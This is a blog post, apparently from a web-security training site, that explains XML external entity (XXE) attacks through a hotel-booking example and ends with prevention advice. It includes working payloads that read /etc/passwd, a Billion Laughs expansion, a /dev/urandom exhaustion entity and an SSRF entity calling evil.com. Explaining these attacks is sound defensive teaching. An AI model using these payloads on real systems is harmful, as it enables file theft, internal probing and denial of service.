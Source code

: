 ```yaml
---
title: XXE Attacks
contributor: Gert J. Oberholzer
avatar: kobus-oberholzer.png
description: A summary on external entity injections, how they are used in an attack and how to prevent most of them
date: 2022-10-13
tags: [XML, Security]
id: xxe-attacks
relatedPost: react-xss
---
```


In recent years, there has been an increase in the number of XXE (external entity attacks) injections. These attacks take advantage of vulnerabilities in XML processing to inject malicious code into a system. This can allow attackers to gain access to sensitive data or even take control of the system altogether. Fortunately, there are steps you can take to prevent XXE attacks. In this blog post, we will explore some of the most common methods used by attackers and how you can protect your systems against them.

## Table of Contents
<!-- toc -->

## What is an XXE attack?

An XXE attack is a type of attack that exploits vulnerabilities in an XML parser to deliver an XXE payload. This can allow attackers to read local files, send HTTP requests to internal resources, and even perform denial-of-service attacks.

To prevent XXE attacks, it's important to keep your software up to date and to use a **web application firewall** (WAF) to block malicious requests.

## How do XXE attacks work?

An XXE attack occurs when an attacker exploits a vulnerability in an weakly configured XML parser to gain access to sensitive information. The attacker sends specially crafted XML data to the vulnerable parser, which then processes the data and returns the results to the attacker. This can be used to view files on the server, execute commands, or even gain access to other servers on the network.

XXE attacks are often possible due to poor input validation. For example, if an application allows users to upload XML files, but does not properly validate the contents of those files, an attacker could upload a malicious file that contains code that would be executed by the XML parser.

To prevent XXE attacks, it is important to properly validate all input, especially input that comes from untrusted sources. All XML parsers should be configured to disable the processing of external entities by default. If external entities must be processed for some reason, strict validation should be used to ensure that only trusted entities are processed.

## How XXE attacks are used

To demonstrate the different ways XXR attacks work, let's set a scene. A booking system for a hotel is being attacked and we need to evaluate all potential attack vectors.

### Retrieve local files

A very basic way XXE payloads can be used is to retrieve files from the server. Let's say the original usage of XML file was to retrieve information on a booking made by a client like so:

    <?xml version="1.0" encoding="UTF-8"?>
    <bookingId>23</bookingId>

We can adjust this XML data to retrieve files we specify and let it return the results.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
       <!ELEMENT foo ANY>
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <bookingId>&xxe;</bookingId>

This is considered an **in-band** attack as the vector of attack is clear and the information retrieved is in the form of a response. Another type of attack is called an **out-of-band** attack like a blind attack.

### Blind attack

Blind attacks are when there are some forms of security measures in place that would prevent you from directly requesting privileged information. There is however still a potential attack surface that is just more hidden, by doing a bind attack you may potentially stumble upon a server response in the shape of an error message that reveals more information than intended, an example would be if the parser's error response is disclosing local files which the attacker can choose to infiltrate.

### Denial of service attack

If the attention is not necessary to retrieve data but to deny service, maybe a popular band is performing and the bad actor wants to have a peaceful stay by preventing other potential guests from booking.

This would be the ideal scenario to dispatch a DOS attack. One such attack type is called A Billion Laughs attack.

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ELEMENT lolz (#PCDATA)>
       <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
       <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
       <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
       <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
       <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
       <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
       <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

Now the reason for the name has become prevalent, let's discuss how it works. First, lol9 will be called which in turn calls lol8 that calls lol7... and this will continue turning kb's of data into GB's within moments.

Another popular way of achieving the same outcome can be done using remote code execution. Asuming the server operates on Linux, an endless recursive file can be called as follows.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "file:///dev/urandom">
    ]>
    <foo>&xxe;</foo>

The goal of this type of attack is to use all server resources possibly impacting application availability

### Server-side request forgery (SSRF)

Server-side request forgery happens when the payload appears to be from internal systems, which grants the attacker access to local resources as if authorized.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "http://evil.com/">
    ]>
    <foo>&xxe;</foo>

This type of attack can be used as the door to a multitude of other attacks and exploits, such as remote code execution, DOS attacks, or just simply gaining access to privileged information, all while leaving a backdoor for future attacks.

{% img "ssrf-attack.png" "SSRF XXE Attack" "lazy" %}

## How to prevent XXE attacks

XXE attacks exploit vulnerabilities in the way that XML parsers process input. An attacker can supply malicious input to an XML parser in order to cause it to execute unintended actions or access sensitive information.

There are several methods that can be used to prevent XXE vulnerabilities. First, make sure that your XML parser is configured to disable external entity processing. This will ensure that the parser does not automatically resolve external references when processing input.

Next, use positive security controls such as input validation and output encoding. Input validation ensures that all input supplied to the XML parser is well-formed and does not contain any malicious code. Output encoding ensures that any data retrieved from the XML document is properly escaped so that the browser cannot execute it.

Finally, keep your software up to date. Newer versions of XML parsers typically include fixes for XXE vulnerabilities as they are discovered. By keeping your software up to date, you can help to protect yourself against these types of attacks.

## What to do if you're a victim of an XXE attack

If you're a victim of an XXE attack, you should first report the incident to your organization's security team. They'll be able to investigate the attack and take steps to prevent it from happening again.

You should also change any passwords that may have been compromised in the attack. Be sure to use strong, unique passwords for all of your accounts. And finally, stay vigilant for any suspicious activity on your accounts or devices.

## Conclusion

XXE attacks are a serious security threat, but they can be prevented with the right precautions. Be sure to disable external entity parsing in your XML parser, and use a whitelist approach when processing untrusted XML input. With these measures in place, you can rest assured that your applications will be safe.

If any of these topics interests you and you would like to prevent other potential vulnerabilities like this, we offer a complete course on developing with security matters in mind at [websecurity-academy](https://websecurity-academy.com/).
